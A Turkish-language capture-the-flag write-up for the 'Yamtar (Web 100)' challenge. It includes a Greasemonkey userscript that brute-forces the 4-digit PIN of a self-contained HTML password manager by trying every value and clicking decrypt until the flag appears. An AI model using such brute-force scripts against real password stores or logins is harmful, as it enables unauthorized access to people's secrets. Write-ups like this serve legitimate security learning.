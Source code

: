 ### Yamtar (Web 100)

Sorudaki linki actigimizda header'inda EveryPass yazan bir sayfa ile karsilasiyoruz. Internette aradigimizda bunun self-contained html dosyalari
icinde bir password manager oldugunu goruyoruz. Master-Password'e hint olarak
"PIN" yazilmasi ve bunun ilk web sorusu olmasi nedeniyle password'un 4 rakamdan olustugunu ve kolayca brute force ile kirilabilecegini varsayip bunu bir Greasemonkey scriptiyle yapmaya karar verdim.

```
// ==UserScript==
// @name     Unnamed Script 542710
// @include  http://54.209.167.162/
// @version  1
// @grant    none
// ==/UserScript==


alert ("Script start.");


i = 1000


while(i < 10000){
  document.getElementById("dec-password").value = i;
  var evt = document.createEvent ("HTMLEvents");
  evt.initEvent ("click", true, true);
  document.getElementById('do-decrypt').dispatchEvent (evt);
  pass_group = document.getElementById('dec-password-group')
  console.log(i)
  i++

}
```

Program kisa bir sure calisip web sayfasini kastirdiktan sonra karsimiza tek bir sifre cikiyor. Ayrintilarina baktigimizda ise flag'i buluyoruz.

![flag](flag.png)
